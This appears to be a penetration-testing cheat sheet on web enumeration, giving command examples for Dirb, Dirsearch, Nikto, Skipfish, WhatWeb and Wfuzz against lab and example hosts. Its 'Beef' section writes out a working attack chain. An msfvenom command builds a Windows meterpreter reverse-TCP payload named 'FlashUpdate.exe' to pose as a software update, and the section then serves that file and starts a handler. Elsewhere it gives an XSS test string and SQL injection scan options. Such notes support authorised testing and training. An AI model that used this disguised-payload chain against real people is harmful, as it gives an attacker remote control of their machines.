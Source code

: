 # <h1 id="topheading">Basic Web Enumeration -  Dirbuster, and Nikto</h1>

## Objectives

Basic Web Enumeration Tools and Examples

## Beef

Create Payload:
```
msfvenom ­a x86 ­­platform Windows ­p windows/meterpreter/reverse_tcp lhost=10.10.75.1 lport=4444 ­f exe ­o /tmp/FlashUpdate.exe
```
Serve Simple Web Page:
```
python -­m SimpleHTTPServer 8000 &
```

Start MSF Handler:
```
root@slingshot:~# msfconsole -­q
set PAYLOAD windows/meterpreter/reverse_tcp PAYLOAD => windows/meterpreter/reverse_tcp
set LHOST 10.10.75.1
msf exploit(handler) > exploit
```

Start Beef:
```
cd /opt/beef
./beef
```

## Dirbuster

Dirbuster from Command Line - tool is GUI-based where more settings can be configured:
```
dirb http://192.168.1.5/dvwa
```

DIRB can identify valid web pages on a web server even if the main index page is missing:
```
dirb http://www.megacorpone.com -r -z 10
```

Dirbuster with Metasploit:
```
use auxiliary/scanner/http/dir_scanner   
msf auxiliary(dir_scanner) >set dictionary /usr/share/wordlists/dirb/common.txt
msf auxiliary(dir_scanner) >set rhosts 192.168.1.5
msf auxiliary(dir_scanner) > set path /dvwa
msf auxiliary(dir_scanner) >exploit
```

## Dirsearch

Basic Dirsearch Checking
```
./dirsearch.py –u http://192.18.1.5/dvwa -e php -f -x 400,403,404
```

## Nikto

Nikto Resource:
https://redteamtutorials.com/2018/10/24/nikto-cheatsheet/

Update the plugins and databases
```
nikto -update
```


Scanning a host and specifying an amount of time for a scan
```
nikto -h <Hostname/IP>
nikto -host=<hostname/IP> -maxtime=30s
```

Specify host header
```
nikto -h <Hostname/IP> -vhost
```

Only perform an SQL injection test against your target:
```
nikto -Tuning 9 -h example.com
```

Run everything except DOS:
```
nikto -Tuning x 6 -h example.com
```

Perform an SQL injection test and save results to an html file with verbose output for your terminal:
```
nikto -Display V -o results.html -Format htm -Tuning 9 -h example.com
```

The following command will run a Nmap scan on host 192.168.0.0 – 192.168.0.24 using a grepable output which is defined by the -oG- flag:
```
nmap -p80 10.0.0.0/24 -oG – | nikto -h –
```

Simple browser script to test for XSS flaws:
```
<script>alert("Vulnerable!");</script>
http://10.0.0.10/index.php?loc=<script>alert("Vulnerable!");</script>
```

Nikto:
Scan PROD Server
```
'export PROD=box.to.scan'
nikto.pl -C "none" -h $PROD -findonly - skips CGI, reconnaissance only
nikto.pl -C "none" -h $PROD -Plugins "robots" - searches for 'robots.txt' problems
nikto.pl -C "none" -h $PROD -findonly -D 2 - reconnaissance that reveals COOKIES
nikto.pl -D V -o nikto.log.1.txt -h $STAGING - creates local log file in directory from which 'nikto.pl' was executed
nikto.pl -D V -o nikto.log.recon.1.txt -h $STAGING -findonly - will NOT log to FILE, but rather: STDOUT
nikto.pl -C none -D V -o nikto.log.recon.`date +%s`.html -Format htm -h 10.0.0.1 - spaces LOG files by seconds
```

## Skipfish:
skipfish -o OUTPUT_DIRECTORY TARGET_URL
skipfish -o linuxcbt.internal https://www.linuxcbt.internal

## WhatWeb

Use Whatweb to enumerate details on the website (can also use their website, as well):
```
whatweb https://www.test.com/
```

## Wfuzz
```
wfuzz -c -W /usr/share/wfuzz/wordlist/dir/common.txt --hc 400,404,403 http://192.168.1.5/dvwa/
```

